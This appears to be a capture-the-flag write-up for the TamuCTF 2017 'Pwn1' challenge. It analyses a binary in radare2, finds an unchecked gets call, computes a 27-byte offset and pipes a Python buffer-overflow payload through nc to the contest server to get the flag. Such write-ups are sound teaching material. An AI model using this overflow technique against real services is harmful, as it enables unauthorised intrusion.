





# [TamuCTF 2017](https://ctf.tamu.edu/)
### Pwn1 - 50 Points



We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2.

```bash
$ wget https://ctf.tamu.edu/files/7e968d03d9caa11a2f4f2909bd3cabc9/pwn1
$ r2 pwn1
```

Now that the binary is opened, we need to analyze its content.

```bash
[0xf7721ac0]> aaa		# Analyze
[0xf7721ac0]> afl		# List functions found
.
.
0x0804854b    4 103          sym.print_flag
0x080485b2    4 120          main
.
.
```

Interesting, there is **print_flag** function at `0x0804854b`. Lets see what's inside.

```bash
[0xf771eac0]> s sym.print_flag	# We move to beginning of print_flag function
[0x0804854b]> pdf				# print its code
```



Because of the offsets `0x08048569` and `0x0804856e` we can deduce that the function opens a file called **flag.txt** and prints its content. Fantastic :v:, so we just need to know who will call **print_flag**. This can be figured out through the `axt` command of r2 which stands for "cross reference to" the actual function.

```bash
[0x0804854b]> axt
call 0x8048606 call sym.print_flag in main
```

Cool, so this function will be called from offset `0x8048606` **main**. Lets see whats inside it.

```bash
[0x0804854b]> s main
[0x080485b2]> pdf
```


We see that **print_flag** will be called if the condition `local_ch == 0xca11ab1e` is not satisfied. But wait a moment, if we give a closer look to the assembly instrucctions we realized that the only variable we are supposed to edit is **local_27h** through the `gets` function:



So what we need to do? As maybe you know, **gets** is an unsecure function, because it does not check how many characters it must copy in memory when you introduce them. Then if we input more characters than it is supposed store, we will be able to overwrite neightbor local variables!

How can we know the length of the string we must provide? By knowing where the variables are stored onto the stack



So finally, how many bytes do we need to start writting **local_ch**?
Easy!

`($ebp - 0x27) - ($ebp - 0xC) = 0x27 - 0xC = 0x1B = 27d` 27 Characters.

```bash
$ python -c 'print("A"*27 + "\x1E\xAB\x11\xCA")' | nc pwn.ctf.tamu.edu 4322
Enter the secret word:
How did you figure out my secret?!
gigem{T00_435Y}
```

Answer: gigem{T00_435Y}

Complete process:

<a href="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc?autoplay=1"></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.